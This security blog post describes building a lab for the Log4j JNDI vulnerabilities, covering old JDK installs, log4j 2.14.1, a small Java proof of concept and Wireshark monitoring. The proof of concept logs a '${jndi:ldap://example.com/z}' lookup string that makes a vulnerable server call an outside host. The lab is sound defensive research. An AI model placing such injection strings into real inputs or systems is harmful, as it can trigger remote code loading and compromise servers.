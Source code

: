 ```yaml
---
title: Building a Research Environment for Log4j
date: 2023-03-03T20:35:05+00:00
tags: 
  - Apache
  - DNS resolver
bg_image: /assets/images/posts/image-4.png
author:
    name: '@saldat0'
    url: https://x.com/saldat0
---
```

With its widespread adoption rate and the challenge enterprises face with tracking down where it is being used, log4j would likely continue to be a relevant attack vector for quite a long time. Because of this, we decided to showcase how one would go about building a local lab that could be used both for developing and testing an exploit, as well as help to confirm and adapt remedial actions.

For background, whenever we refer to the Apache log4j vulnerability, we mean the following CVEs:

-   CVE-2021-44228
-   CVE-2021-45046
-   CVE-2021-45105

## 1\. Building the Vulnerable Server

Due to the many conditions and elements included in this vulnerability, which significantly influence the impact and the possible steps for remediation, we found that to be able to test and obtain realistic results that can then confidently be relied on, we had to be very precise when setting up the environment. For example, the version of JDK, the version of log4j, the operating system, the running DNS resolver services, the log4j configuration file, the Java configuration file, the environment variables, as well as what other libraries are being included in the application can all make the exploitation and patching of this issue slightly different.

And because of this, it is important to make sure that all the software matches the one of the target application. To that end, in this article, you will see that we pay particular attention not only to the version of log4j but also to Java as it also plays an important role in the exploit.

We will cover three different ways of building a vulnerable server:

### **Docker Container**

Start right away with Docker, which is by far the easiest to set up. OpenJDK (an open-source implementation of the Java Platform, Standard Edition) offers [all the versions of Java](https://hub.docker.com/_/openjdk) that you may need; ready to be downloaded and used.

Keep in mind that JDK versions greater than 6u211, 7u201, 8u191, and 11.0.1 are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to *false* meaning JNDI cannot load remote code using LDAP. However, the vulnerability is still exploitable using other methods, such as [beanfactory](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

In the example below you will see how easy it is to download JDK 8u171 and jump right into it:

![](/assets/images/posts/image-13.png)

### **Linux Virtual Machine**

Alternatively, if you prefer to set up the testing environment directly on a Linux server, it is still relatively easy. You can go to the [Java SE archive](https://secariolabs.com/building-a-research-environment-for-log4j/o%09https:/www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html) and select the version of Java that you need (we recommend the tar.gz format).

Once the version is downloaded, it is just a matter of extracting the archive, as shown below:

```bash
user@ubuntu:~/poc$ ll -Ah
total 183M
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ tar zxvf jdk-8u171-linux-x64.tar.gz
[...snip...]

user@ubuntu:~/poc$ ll -Ah
total 183M
drwxr-xr-x 8 user user 4.0K Mar 28  2018 jdk1.8.0_171/
-rw-rw-r-- 1 user user 183M Dec 20 02:13 jdk-8u171-linux-x64.tar.gz

user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -version
java version "1.8.0_171"
Java(TM) SE Runtime Environment (build 1.8.0_171-b11)
Java HotSpot(TM) 64-Bit Server VM (build 25.171-b11, mixed mode)

```

### **Windows Virtual Machine**

Unlike the previous two options, downloading Java on Windows system without actually installing it, is slightly more involved. It all starts the same way: by downloading the wanted version of Java from the [Java SE archive](https://www.oracle.com/uk/java/technologies/javase/javase8-archive-downloads.html), but then rather than installing it we will have to do a few steps.

As initially described by [Igor on Stack Overflow](https://stackoverflow.com/questions/1619662/how-can-i-get-the-latest-jre-jdk-as-a-zip-file-rather-than-exe-or-msi-installe):

**Step 1:** Download and install [7zip](https://www.7-zip.org/download.html)

**Step 2:** Unarchive the executable "jdk-XuXX-windows-x64.exe" with 7zip, as shown below:

![](/assets/images/posts/image-14-1024x392.png)

**Step 3:** Run `extrac32 111` within the `.rsrc\1033\JAVA_CAB10` folder, as shown below:

![](/assets/images/posts/image-15.png)

**Step 4:** Extract the "tools.zip" archive in the same folder using 7zip

**Step 5:** Run `for /r %x in (*.pack) do .\bin\unpack200 -r "%x" "%~dx%~px%~nx.jar"` within the newly created "tools" folder, as shown below:

![](/assets/images/posts/image-16.png)

**Step 6:** Recursively copy the contents of the "tools" folder to a location where JDK would be located; in the screenshot below the new folder would be `C:\jdk-8u171`.

![](/assets/images/posts/image-17.png)

**Step7:** Verify that Java has been installed successfully:

![](/assets/images/posts/image-18.png)

## 2\. Building the Vulnerable Application

With a working server, the next step would be to download the version of log4j that would be used for testing. This could be achieved by downloading the (tar.gz or zip) library from [Apache's archive](https://archive.apache.org/dist/logging/log4j/).

In our case, that was version 2.14.1 of log4j, as shown below:

```bash
user@ubuntu:~/poc$ wget -q https://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ tar zxf apache-log4j-2.14.1-bin.tar.gz
user@ubuntu:~/poc$ ls -l apache-log4j-2.14.1-bin/log4j-{api,core}-2.14.1.jar
-rw-r--r-- 1 user user  300364 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar
-rw-r--r-- 1 user user 1745701 Mar  6  2021 apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar

```

Once that is completed, the next step is to either recreate the application you are targeting, or a simple dummy one where you can work on the attack. A short piece of code that would be able to invoke the vulnerability has been included below:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class POC {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(POC.class);
        logger.error("${jndi:ldap://example.com/z}");
    }
}
```

To compile the script, it is important to include both the "core" and the "api" libraries:

```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar POC.java
```

To run the script, it is once again required to include both libraries as well as the current folder:

```
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar:apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:. POC
14:27:56.562 [main] ERROR POC - ${jndi:ldap://example.com/z}

```

*Note that the vulnerable application hangs once executed, as an LDAP request is being made in the background and it will need to timeout.*

## 3\. Testing the Proof-Of-Concept

At this point, the last element needed to complete the basic research environment would be to obtain visibility over the network traffic. Ideally, that would be done with a custom LDAP/DNS/RMI server that would be able to provide a clear indication of the request and any metadata it carries, as well as control over what data is sent back to the vulnerable application; however, some of that could be achieved with a simple packet analyser that can show if a request is being made, even if nothing is sent back. For a lot of the cases that should be enough to prove if the application is (still) vulnerable.

We would recommend Wireshark as it will be easy to see the different protocols and it is very intuitive to apply filters (unlike `tcpdump`). With it running (do not forget to execute it with elevated privileges), listening on all interfaces, you should be able to rerun the POC script and see the network traffic, as shown below:

![](/assets/images/posts/image-19.png)

That concludes our small testing environment for log4j. In our next blog post, we would focus more on exploiting the vulnerability and research different patching methods.